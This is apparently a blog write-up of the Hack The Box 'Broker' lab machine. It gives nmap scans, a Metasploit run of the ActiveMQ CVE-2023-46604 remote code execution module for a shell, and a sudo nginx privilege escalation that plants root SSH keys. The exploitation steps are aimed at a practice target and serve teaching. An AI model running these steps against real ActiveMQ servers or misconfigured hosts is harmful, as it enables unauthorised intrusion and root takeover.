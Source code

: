 ```yaml
---
title: Broker
published: true
layout: post
---
```

	
<br />

---------------
Broker is an easy difficulty Linux machine hosting a version of Apache ActiveMQ. Enumerating the version of Apache ActiveMQ shows that it is vulnerable to Unauthenticated Remote Code Execution, which is leveraged to gain user access on the target. Post-exploitation enumeration reveals that the system has a sudo misconfiguration allowing the activemq user to execute sudo /usr/sbin/nginx, which is similar to the recent Zimbra disclosure and is leveraged to gain root access.

<br />

<iframe style="aspect-ratio: 16 / 9; width: 65%; display: block; margin: auto;" src="https://www.youtube.com/embed/RToOy6WLHn8?si=idmyl06xxS5kgs3H" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

<br />

---------------------------------------------------

<br />

## Walkthrough

### Reconnaissance

We will start by **scanning protocolos** in the target machine, this can be divided in 3 phases:
1. Scan for **open ports**.
2. Scan for **services** in these open ports.
3. Scan for **vulnerabilities** in these services.

<br />
Let's start by scanning for **open ports**:

```bash
sudo nmap -sS -sU 10.10.11.243 -p- -T4 --min-rate 5000 -oN all_ports.txt --open -n -Pn -v
```

![](/assets/Broker/1.png)
<br />
<br />
<br />

There are **9 open ports**:
+ **22/tcp**
+ **80/tcp**
+ **1883/tcp**
+ **5672/tcp**
+ **8161/tcp**
+ **43791/tcp**
+ **61613/tcp**
+ **61614/tcp**
+ **61616/tcp**

<br />
Let's check which **services** are running in these ports:

```bash
sudo nmap -sS 10.10.10.243 -p 22,80,1883,5672,8161,43791,61613,61614,61616 -T4 --min-rate 5000 -oX open_ports.xml -oN open_ports.txt --version-all -n -Pn -A
```

![](/assets/Broker/2.png)
<br />
<br />
<br />

We can see that the services correspond to:
+ **22/tcp OpenSSH 8.9p1**
+ **80/tcp nginx 1.18.0**
+ **1883/tcp mqtt**
+ **5672/tcp amqp**
+ **8161/tcp Jetty 9.4.39.v20210325**
+ **43791/tcp tcpwrapped**
+ **61613/tcp Apache ActiveMQ**
+ **61614/tcp Jetty 9.4.39.v20210325**
+ **61616/tcp ActiveMQ OpenWire transport**

<br />

Now we will seek for **vulnerabilities**:

```bash
sudo nmap -sS 10.10.10.243 -p 22,80,1883,5672,8161,43791,61613,61614,61616 -T4 --min-rate 5000 --script="vuln and safe or intrusive and safe or discovery" -oN vulns.txt -oX vulns.xml -n -Pn
```

![](/assets/Broker/3.png)
<br />
<br />
<br />

Which didn't return anything.

<br />

------

<br />
### Foothold

This machine drove me crazy at the beginning as I started performing a bad enumeration, then the exploits I tried didn't work, until I found out that I had to use a **metasploit module** for it to work.

<br />

Digging a little bit further into each service I discovered a **version for the ActiveMQ software** running on **port 61616/tcp**, 5.15.15:

```bash
nc 10.10.11.243 61616
```

![](/assets/Broker/4.png)
<br />
<br />
<br />

Searching for this on Google led me to **CVE-2023-46604**:
![](/assets/Broker/5.png)
<br />
<br />
<br />

After trying a few exploits unsuccessfully, I discovered this Metasploit exploit:

```bash
sudo msfdb run
msf6 > search CVE-2023-46604
msf6 > use 2
```

![](/assets/Broker/6.png)
<br />
<br />
<br />

Let's set the **required parameters** and **run the exploit**:

```bash
set RHOSTS 10.10.11.243
set LHOST tun0
set SRVHOST tun0
run
```

![](/assets/Broker/7.png)
<br />
<br />
<br />

This exploit worked! Let's get a shell and get the **user flag**:

![](/assets/Broker/8.png)
<br />
<br />
<br />

------

<br />
### Privilege Escalation

The privilege escalation in this machine is easy, however we have not seen it yet, so I'm going to elaborate it.

<br />

Enumerating the system, I discovered that we can **run nginx as sudo without password**:

```bash
sudo -l
```

![](/assets/Broker/9.png)
<br />
<br />
<br />

Although GTFOBins doesn't contain any privilege escalation method for this privilege, Google does, specifically [**DylarGrl**](https://gist.github.com/DylanGrl/ab497e2f01c7d672a80ab9561a903406):

![](/assets/Broker/10.png)
<br />
<br />
<br />

This exploit creates an **nginx configuration file**, which launches an **nginx instance that runs as root** and allows us to **run commands**, in this case it **creates SSH keys for the root user**, which we can then use to log in as root. Let's run it:

![](/assets/Broker/11.png)
<br />
<br />
<br />

We can copy this key, login with it and grab the **root flag**:

![](/assets/Broker/12.png)
<br />
<br />
<br />
